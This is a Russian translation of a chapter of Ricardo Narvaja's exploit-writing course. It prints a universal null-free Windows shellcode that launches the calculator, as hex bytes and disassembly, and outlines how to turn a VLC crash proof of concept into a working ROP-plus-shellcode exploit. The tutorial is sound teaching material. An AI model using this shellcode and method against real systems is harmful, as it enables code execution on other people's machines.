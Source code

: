 # Часть 40

**УНИВЕРСАЛЬНЫЙ** **ШЕЛЛКОД**

Существует тысячи типов шеллкодов. Каждый из них разработан в соответствии с целью, которую мы должны эксплуатировать.

Существую шеллкоды, которые используются для доказательства того, что вы можете запустить код после эксплуатации. Обычно они запускают калькулятор и ничего больше.

Очевидно, что существуют более сложные шеллкоды, которые открывают удаленные консоли, стараются остаться в системе не смотря на то, что эксплуатируемая программа перестает работать или закрывается, инжектируют себя в некоторый другой процесс системы, сохраняет себя как файл и т.д.

Существует библиотека шеллкодов, которую мы можем найти в **GOOGLE** или запрограммировать, если нам нужно что-то особенное.

С этого момента мы будем использовать **УНИВЕРСАЛЬНЫЙ** **ШЕЛЛКОД**, который работает для всех версией **WINDOWS** и запускает калькулятор. При этом мы продемонстрируем выполнение кода.

Я нашел его здесь:

[https://packetstormsecurity.com/fil...-Null-Free-CreateProcessA-Calc-Shellcode.html](https://packetstormsecurity.com/files/102847/All-Windows-Null-Free-CreateProcessA-Calc-Shellcode.html)

shellcode=
**"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b"\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7"**

Я могу использовать его в скрипте **PYTHON** точно так же, если у меня есть место для его добавления.

Сами байты эксплоита такие:

**31 db 64 8b 7b 30 8b 7f 0c 8b 7f 1c 8b 47 08 8b 77 20 8b 3f 80 7e 0c 33 75 f2 89 c7 03 78 3c 8b" 57 78 01 c2 8b 7a 20 01 c7 89 dd 8b 34 af 01 c6 45 81 3e 43 72 65 61 75 f2 81 7e 08 6f 63 65 73 75 e9 8b 7a 24 01 c7 66 8b 2c 6f 8b 7a 1c 01 c7 8b 7c af fc 01 c7 89 d9 b1 ff 53 e2 fd 68 63 61 6c 63 89 e2 52 52 53 53 53 53 53 53 52 53 ff d7**

**MOV EDI,DWORD PTR FS:\[EBX+30\]
XOR EBX,EBX
MOV EDI,DWORD PTR DS:\[EDI+C\]
MOV EDI,DWORD PTR DS:\[EDI+1C\]
MOV EAX,DWORD PTR DS:\[EDI+8\]
MOV ESI,DWORD PTR DS:\[EDI+20\]
MOV EDI,DWORD PTR DS:\[EDI\]
CMP BYTE PTR DS:\[ESI+C\],33
JNZ SHORT CANARY\_c.00A7138A
MOV EDI,EAX
ADD EDI,DWORD PTR DS:\[EAX+3C\]
MOV EDX,DWORD PTR DS:\[EDI+78\]
ADD EDX,EAX
MOV EDI,DWORD PTR DS:\[EDX+20\]
ADD EDI,EAX
MOV EBP,EBX
MOV ESI,DWORD PTR DS:\[EDI+EBP\*4\]
ADD ESI,EAX
INC EBP
CMP DWORD PTR DS:\[ESI\],61657243
JNZ SHORT CANARY\_c.00A713A9
CMP DWORD PTR DS:\[ESI+8\],7365636F
JNZ SHORT CANARY\_c.00A713A9
MOV EDI,DWORD PTR DS:\[EDX+24\]
ADD EDI,EAX
MOV BP,WORD PTR DS:\[EDI+EBP\*2\]
MOV EDI,DWORD PTR DS:\[EDX+1C\]
ADD EDI,EAX
MOV EDI,DWORD PTR DS:\[EDI+EBP\*4-4\]
ADD EDI,EAX
MOV ECX,EBX
MOV CL,0FF
PUSH EBX
LOOPD SHORT CANARY\_c.00A713D8
PUSH 636C6163
MOV EDX,ESP
PUSH EDX
PUSH EDX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EDX
PUSH EBX
CALL EDI**

Эти байты запускают калькулятор везде где мы их вставляем. Хорошо, что у этих байтов нет нулей. Хотя могут быть программы, который отвергают какой-то конкретный символ отличный от нуля. Это будет зависеть от случая.

Мы уже знаем, как сделать **ROP** и у нас уже есть универсальный шеллкод. Основной смысл состоит в том, чтобы практиковаться с программой **VLC**, для которой мы уже сделали **POC**. Я был бы очень рад, если бы кто-то отправил мне полный файл и туториал, объясняющий то, что Вы сделали. Я бы добавил бы первого человека, который отправил бы мне хорошо объясняющий туториал в качестве приложения в одной из глав.

**ROP** может быть сделан вручную или с помощью **MONA**. Для нас нет никаких проблем. Вы должны найти модуль **DLL** без защиты **ASLR** и если таких больше чем один, **MONA** может использовать больше одной **DLL** в качестве аргумента, для объединения **ROP** объединяющей обе **DLL**.

Что касается же скрипта **PYTHON**, то я дам вам его схему. Как только вы создадите **ROP**, откройте файл **POC.TY+**

![](.gitbook/assets/40/01.png)

И ищите числа **41424344**, которые перезаписывают **АДРЕС** **ВОЗВРАТА**.

![](.gitbook/assets/40/02.png)

И здесь, в зависимости от размера **ROP** + **ШЕЛЛКОДА,** скажем, что в качестве примера, **ROP** и **ШЕЛЛКОД** имеет длину **150** байтов. Я заменяю область по чуть-чуть начиная со значения **41424344**включительно. Предположим что это **160** байтов.

Я помечаю вниз, пока не получу отмеченную область требуемой длины.

![](.gitbook/assets/40/03.png)

Я заполняю выбранную область с помощью байта **90**.

![](.gitbook/assets/40/04.png)

Хорошо, проверьте размер области, где находятся байты **90**, которая больше чем размер **ROP** + **ШЕЛЛКОД**. Я записываю полученный размер. В моём случае он равен **160** байт.

![](.gitbook/assets/40/05.png)

Теперь у нас есть схема работы скрипта. Скрипт ещё не протестирован. Скрипт не работает. Мы не определили **ROP** или **ШЕЛЛКОД**. Вы можете использовать **УНИВЕРСАЛЬНЫЙ** **ШЕЛЛКОД**, который мы только что видели, если у вас нет проблем с каким-либо символом. Если это не так, вы должны найти другой шеллкод.

Основная идея состоит в том, что скрипт открывает файл заполненный байтами **90**, заменяет их полезной нагрузкой того же размера, которая содержит начало **ROP,** **ШЕЛЛКОД** и дополнительные данные или заполнение. Затем скрипт сохраняет файл, чтобы проверить его работоспособность. Если файл заработает, то это будет считаться эксплоитом. А если нет заработает, нам нужно трассировать, чтобы увидеть почему так получилось.

Я был бы очень рад, если бы кто-то написал туториал и отправил мне рабочий эксплоит.Я бы увидел, что я зря не тратил время на написание туториалов.

Первый человек, который отправит мне туториал, будет добавлен в наш курс как победитель. Если людей будет больше одного, я загружу решению их в папку **SOLUCIONES** нашего курса, которую я создам для этого на своев Веб-Сервере, если это потребуется.

До следующей части **41**. Практикуйте и находите решение.

**=======================================================
Автор текста: Рикардо Нарваха** - **Ricardo** **Narvaja** \(**@ricnar456**\)
Перевод на английский: **IvinsonCLS \(@IvinsonCLS\)**
Перевод на русский с испанского+английского: **Яша\_Добрый\_Хакер\(Ростовский фанат Нарвахи\).**
Перевод специально для форума системного и низкоуровневого программирования — **WASM.IN
11.04.2018
Версия 1.0**
